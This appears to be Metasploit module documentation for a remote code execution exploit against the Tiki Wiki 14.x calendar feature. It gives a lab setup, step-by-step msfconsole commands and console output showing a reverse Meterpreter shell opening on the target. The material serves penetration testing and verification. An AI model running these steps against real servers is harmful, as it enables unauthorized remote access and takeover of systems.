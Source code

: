 ## Vulnerable Application

  You can find the vulnerable application from one of these sources:

  * Official Source: [sourceforge](https://sourceforge.net/projects/tikiwiki/files/Tiki_14.x_Peony/14.1/)
  * Exploit-db: [edb](https://www.exploit-db.com/apps/2fa84367ba4f14afab9f51cd3e93606d-tiki-14.2.7z)
  * Archived Copy: [github](https://github.com/h00die/MSF-Testing-Scripts)

### Creating A Testing Environment

  1. Create a fresh Ubuntu 16.04 w/ a LAMP install
  2. `apt-get install php-xml`
  3. Normal php install at that point!
  4. After install, login as admin:admin
  5. Go to the Control Panels
  6. Click Features
  7. Enable Calendar under Main feature
  8. Click Apply

#### Permissions

  If you wish to enable the non-logged in user (anonymous) to view/exploit the calendar
  1. Log in as admin
  2. From the top dropdown select permissions
  3. Check Anonymous near the top
  4. Click Assign

## Verification Steps

  1. Install the software as documented above
  2. Start msfconsole
  3. Do: `use exploit/linux/http/tiki_calendar_exec`
  4. Do: `set rhost 10.10.10.10`
  5. (optional, if not set, set username to empty) Do: `set PASSWORD admin`
  6. Do: `set payload php/bind_perl`
  7. Do: `set verbose true`
  8. Do: `check`

```
  [*] Attempting Login
  [+] Login Successful!
  [+] 10.10.10.10:80 The target is vulnerable.
```

  9. Do: `exploit`
  10. You should get a shell

```
  [*] Started reverse TCP handler on 10.10.10.10:4444 
  [*] Attempting Login
  [+] Login Successful!
  [*] Sending malicious calendar view packet
  [*] Sending stage (33721 bytes) 10.10.10.10.190
  [*] Meterpreter session 1 opened (10.10.10.10:4444 -> 192.168.2.190:48188) at 2016-06-19 08:50:44 -0400
```

## Options

  **PASSWORD**

  Password is set at first login. Default for admin is 'admin'.

## Scenarios

Example running against unauthenticated calendar v14.1

```
  msf > use exploit/linux/http/tiki_calendar_exec
  msf exploit(tiki_calendar_exec) > set rhost 192.168.2.190
  rhost => 192.168.2.190
  msf exploit(tiki_calendar_exec) > set targeturi /t14_1/
  targeturi => /t14_1/
  msf exploit(tiki_calendar_exec) > set payload php/meterpreter/reverse_tcp
  payload => php/meterpreter/reverse_tcp
  msf exploit(tiki_calendar_exec) > set lhost 192.168.2.229
  lhost => 192.168.2.229
  msf exploit(tiki_calendar_exec) > set verbose true
  verbose => true
  msf exploit(tiki_calendar_exec) > set username ''
  username => 
  msf exploit(tiki_calendar_exec) > exploit
  
  [*] Started reverse TCP handler on 192.168.2.229:4444 
  [*] Sending malicious calendar view packet
  [*] Sending stage (33721 bytes) to 192.168.2.190
  [*] Meterpreter session 1 opened (192.168.2.229:4444 -> 192.168.2.190:48172) at 2016-06-18 10:58:19 -0400
  
  meterpreter > sysinfo
  Computer    : tikiwiki
  OS          : Linux tikiwiki 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:33:37 UTC 2016 x86_64
  Meterpreter : php/php
  meterpreter > 
```
